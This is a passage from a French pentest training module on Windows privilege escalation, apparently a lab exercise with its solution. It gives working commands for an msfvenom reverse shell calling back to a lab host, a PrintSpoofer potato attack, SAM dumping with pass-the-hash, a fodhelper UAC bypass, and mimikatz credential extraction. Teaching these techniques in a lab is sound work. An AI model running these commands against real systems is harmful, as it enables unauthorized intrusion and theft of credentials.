    1. Utiliser fodhelper pour bypass UAC
    2. Depuis le shell élevé, extraire les credentials

    **Critères de réussite** :

    - [ ] Shell SYSTEM obtenu via exploitation de service
    - [ ] Shell SYSTEM obtenu via Potato attack
    - [ ] Hash admin local extrait et utilisé pour PtH
    - [ ] UAC bypassé avec succès

??? quote "Solution"

    **Technique 1 : Service Exploitation**

    ```powershell
    # 1. Énumération
    .\winpeas.exe servicesinfo

    # Résultat : Service "VulnService" avec unquoted path
    # C:\Program Files\Vulnerable App\service.exe

    # 2. Vérifier permissions
    icacls "C:\Program Files\Vulnerable App"
    # Résultat : Users:(M)

    # 3. Générer payload (sur Kali)
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.100 LPORT=4444 -f exe -o Vulnerable.exe

    # 4. Placer le payload
    copy Vulnerable.exe "C:\Program Files\Vulnerable.exe"

    # 5. Listener (sur Kali)
    nc -lvnp 4444

    # 6. Redémarrer le service (ou attendre reboot)
    sc stop VulnService
    sc start VulnService

    # Shell SYSTEM reçu!
    ```

    **Technique 2 : Potato Attack**

    ```powershell
    # 1. Vérifier les privilèges (sur le serveur web en tant que IIS)
    whoami /priv
    # SeImpersonatePrivilege    Enabled

    # 2. Utiliser PrintSpoofer
    .\PrintSpoofer64.exe -i -c "cmd"

    # Résultat :
    # C:\WINDOWS\system32>whoami
    # nt authority\system
    ```

    **Technique 3 : Credential Extraction**

    ```powershell
    # 1. Dump SAM (requiert admin local obtenu précédemment)
    reg save HKLM\SAM C:\temp\sam
    reg save HKLM\SYSTEM C:\temp\system

    # 2. Transférer et extraire (sur Kali)
    secretsdump.py -sam sam -system system LOCAL

    # Résultat :
    # Administrator:500:aad3...:31d6cfe0d16ae931b73c59d7e0c089c0:::

    # 3. Pass-the-Hash vers une autre machine
    crackmapexec smb 192.168.56.50 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0

    # [+] Pwn3d!
    psexec.py Administrator@192.168.56.50 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
    ```

    **Technique 4 : UAC Bypass**

    ```powershell
    # 1. Vérifier qu'on est admin mais non élevé
    whoami /groups | findstr "Medium"
    # Mandatory Label\Medium Mandatory Level

    # 2. Fodhelper bypass
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe" -Force
    Start-Process "C:\Windows\System32\fodhelper.exe"

    # 3. Dans le nouveau cmd élevé
    whoami /groups | findstr "High"
    # Mandatory Label\High Mandatory Level

    # 4. Depuis ce shell élevé, dump des credentials
    .\mimikatz.exe
    privilege::debug
    sekurlsa::logonpasswords
    ```

---

## Points Clés à Retenir

- **Énumérer avant d'exploiter** : WinPEAS/PowerUp révèlent les vecteurs
- **Services Windows** : Très souvent mal configurés
- **SeImpersonatePrivilege** : = Shell SYSTEM avec Potato attacks
- **LSASS** : Cible prioritaire mais très surveillée
- **UAC** : N'est pas une barrière de sécurité fiable
- **DCSync** : Fin de partie si obtenu

---

## Ressources

- [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
- [PayloadsAllTheThings - Windows PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [LOLBAS Project](https://lolbas-project.github.io/)
- [GhostPack Tools](https://github.com/GhostPack)

---

| | |
|:---|---:|
| [← Module 3 : AD Compromise](03-module.md) | [Module 5 : Post-Exploitation →](05-module.md) |

[Retour au Programme](index.md){ .md-button }
